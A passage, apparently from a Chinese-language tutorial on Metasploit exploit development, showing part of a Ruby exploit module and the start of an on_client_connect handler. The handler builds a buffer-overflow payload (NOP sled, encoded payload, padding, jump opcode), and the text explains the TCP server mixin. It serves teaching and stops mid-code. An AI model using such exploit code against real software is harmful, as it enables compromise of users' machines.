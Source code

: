 ```
       { 
       'BadChars' => "\x00\x0a\x20\x0d" 
       }, 
      'DisclosureDate' => "May 19 2016", 
      'DefaultTarget'  => 0)) 
  end 
```

通过与许多漏洞一起工作，我们可以看到前面的代码部分并无不同，除了来自`/lib/msf/core/exploit/tcp_server.rb`的 TCP 服务器库文件。TCP 服务器库提供了处理传入请求并以各种方式处理它们所需的所有必要方法。包含此库使得额外选项如`SRVHOST`、`SRVPORT`和`SSL`成为可能。让我们看看代码的剩余部分：

```
def on_client_connect(client) 
return if ((p = regenerate_payload(client)) == nil) 
    print_status("Client Connected") 
    sploit = make_nops(target['Offset']) 
    sploit << payload.encoded 
    sploit << "\xcc" * (6787-2048 - payload.encoded.length)  
    sploit << "\xe9\x85\xe9\xff\xff"  
